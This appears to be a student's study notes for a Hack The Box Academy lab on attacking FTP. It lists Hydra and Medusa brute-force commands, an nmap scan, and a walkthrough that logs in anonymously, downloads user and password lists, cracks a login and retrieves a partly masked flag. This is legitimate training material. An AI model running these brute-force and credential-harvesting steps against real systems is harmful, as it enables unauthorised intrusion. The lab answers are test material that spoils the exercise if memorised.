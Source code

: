 ## [Attacking FTP](https://academy.hackthebox.com/module/116/section/1165)

# Attacking FTP

| Command                                                       | Description                                     |
|---------------------------------------------------------------|-------------------------------------------------|
| `ftp 192.168.2.142`                                           | Connecting to the FTP server using the ftp client. |
| `nc -v 192.168.2.142 21`                                      | Connecting to the FTP server using netcat.         |
| `hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142` | Brute-forcing the FTP service.                     |


```
### Brute Forcing the FTP service with Hydra:
```
hydra -L users.list -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP
```
```
hydra -l $USERNAME -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP
```
#### Brute Forcing with Medusa:
```
medusa -u $USERNAME -P /usr/share/wordlists/rockyou.txt -h $TARGET_IP -M ftp
```


## Questions:
1. What port is the FTP service running on? 

```
sudo nmap -sV -sC $TARGET_IP -Pn
```

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBoxAcademy/CPTS/Attacking-Common-Services/FTP/ftp-nmap-scan.png">

2. What username is available for the FTP server? 

```
wget -m --no-passive ftp://anonymous:anonymous@10.129.203.6 -Pn
```
or
```
ftp 10.129.203.6 -p 2121
Connected to 10.129.203.6.
220 ProFTPD Server (InlaneFTP) [10.129.203.6]
Name (10.129.203.6:root): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||55278|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp          1959 Apr 19  2022 passwords.list
-rw-rw-r--   1 ftp      ftp            72 Apr 19  2022 users.list
226 Transfer complete
ftp> mget *
mget passwords.list [anpqy?]? y
229 Entering Extended Passive Mode (|||43085|)
150 Opening BINARY mode data connection for passwords.list (1959 bytes)
  1959        1.31 MiB/s 
226 Transfer complete
1959 bytes received in 00:00 (174.85 KiB/s)
mget users.list [anpqy?]? y
229 Entering Extended Passive Mode (|||7181|)
150 Opening BINARY mode data connection for users.list (72 bytes)
    72       30.43 KiB/s 
226 Transfer complete
72 bytes received in 00:00 (6.39 KiB/s)
ftp> 
```

```
hydra -L users.list -P passwords.list  ftp://10.129.203.6:2121 -V
```
 `
  [2121][ftp] host: 10.129.203.6   login: r****   password: 7iz***********7
`


3. Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer. 

```
ssh $username@$TARGET_IP
```

`ls`

`cat flag.txt`


## HTB{ ATT******_********C3}

# [Subscribe for getting more HTB Cubes!](https://referral.hackthebox.com/mzyGKZb)

